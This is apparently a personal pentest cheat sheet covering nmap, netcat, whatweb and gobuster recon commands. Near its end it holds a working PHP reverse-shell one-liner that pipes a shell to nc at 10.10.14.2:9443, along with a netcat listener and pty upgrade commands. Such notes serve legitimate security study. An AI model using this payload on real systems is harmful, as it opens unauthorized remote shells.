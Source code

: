 ```yaml
---
id: phd6lr0llsyy9qcbykd4b25
title: Pentest opening
desc: ''
updated: 1673247577257
created: 1673238697340
---
```


## Nmap:

### [Nmap man pages](https://linux.die.net/man/1/nmap)

<table>
<tr><th>Function</th><th>Examples:</th></tr>
<tr><td>

|Flag: | What it does:|
|----------|
|`-sV`| scan against the default top 1000 ports
|`--open`| scan only open ports|
|`-oA <filename>`| output all scan formats|
|`-v`| verbose output|
|`-p-`| full TCP port scan (65535)|
|`--script=<script_name>`|script scan|
|<li>`banner`|A simple banner grabber which connects <br>to an open TCP port and prints out anything <br>sent by the listening service within five seconds|
|<li>`http-enum`|Enumerates directories used by <br>popular web applications and servers|


</td><td>

|Full command:|
|----------|
|`nmap -sV --open -oA <filename> <ip address>`|
|**Quick scan**|
|`nmap -p- --open -oA <filename> <ip address>`|
|**Long scan - recommended in second terminal**|

</td></tr> </table>

## NetCat

### [NetCat man pages](https://linux.die.net/man/1/nc)

<table>
<tr><th>Function</th><th>Examples:</th></tr>
<tr><td>

|Flag: | What it does:|
|----------|
|`-n`| do not do any DNS or service lookups on any specified addresses, <br>hostnames and ports (don't resolve)|
|`-v`| verbose|
|`-l`| listen for incoming connection rather than initiate a connection|

</td><td>

|Full command:|
|----------|
|`nc -nv <ip address> <port>`|
|Confirm banner|
|`nc -nvlp 80`|Listening shell on port 80|

</td></tr> </table>

## whatweb 

### [whatweb man pages](https://manpages.org/whatweb)

<table>
<tr><th>Function</th><th>Examples:</th></tr>
<tr><td>

|Flag: | What it does:|
|----------|
|``| |
|``| |

</td><td>

|Full command:|
|----------|
|`whatweb <ip address>`|
|Identify web application in use|

</td></tr> </table>

## Gobuster

### [Gobuster man pages](https://linuxcommandlibrary.com/man/gobuster)

<table>
<tr><th>Function</th><th>Examples:</th></tr>
<tr><td>

|Flag: | What it does:|
|----------|
|`dir`| use directory enumeration mode |
|`-u`| string, the target URL or Domain |
|`--wordlist` / `-w`| path to wordlist, recommended:<br> `/usr/share/wordlists/dirb/common.txt`  
|`-e`|print full URLs|

</td><td>

|Full command:|
|----------|
|`gobuster -e -u <ip address/URL> -w /usr/share/wordlists/dirb/common.txt`|
|Scan website, use common.txt wordlist and print the full <br>URLs of discovered paths|

</td></tr> </table>

## File upload testing

|File: | What it does/testing:|
|----------|
|[test_php.php](/assets/files/test_php.php)|Tests if php file can be uploaded to web app
|``| |

## Reverse shells:

```php 
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 9443 >/tmp/f"); ?> 
``` 
## Upgrade reverse shell

```python
python -c 'import pty; pty.spawn("/bin/bash")'
```
OR
```python
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
